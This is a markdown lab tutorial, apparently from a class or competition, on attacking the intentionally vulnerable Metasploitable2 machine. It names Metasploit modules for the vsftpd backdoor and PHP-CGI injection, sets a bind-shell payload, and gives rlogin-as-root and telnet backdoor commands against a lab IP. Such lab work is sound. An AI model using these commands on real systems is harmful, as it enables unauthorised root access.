 # Example Exploit 
There are multiple exploits for this Metasploitable2 box. Here is some information how how to do some of them.

If you haven't gone and done the ![Windows XP](windowsxp.md) tutorial and you don't know how to use metasploit, go over there and test it out.

## exploit/unix/ftp/vsftpd_234_backdoor
Go ahead and use metasploit for this attack. Follow the same principles as before. 

This is an interesting one. [vsftpd backdoor](http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-download-backdoored.html)

![Image of vsftpd](images/vsftpd.png)

I'm not sure which hosts are vulnerable. Hopefully they don't patch it quick. 

## multi/http/php_cgi_arg_injection
Go ahead and use metasploit for this attack too. Follow the same principles as before. 

Set your payload to `set PAYLOAD generic/shell_bind_tcp`

This is a PHP exploit. You won't get root with this. 

[PHP CGI](http://eindbazen.net/2012/05/php-cgi-advisory-cve-2012-1823/)

![Image of php](images/php.png)

I don't think they'll patch this one very quick.

## rlogin/telnet backdoor

This one is pretty simple. There's a backdoor in [rlogin and telnet](http://www.kalitutorials.net/2014/05/metasploitable-2-vulnerability.html)

```
sudo apt update; sudo apt install rsh-client
rlogin -l root 10.0.0.188
```

![Image of rlogin](images/rlogin.png)

`telnet 10.0.0.188 1524`

![Image of telnet](images/telnet.png)

Hurry quick on this one.


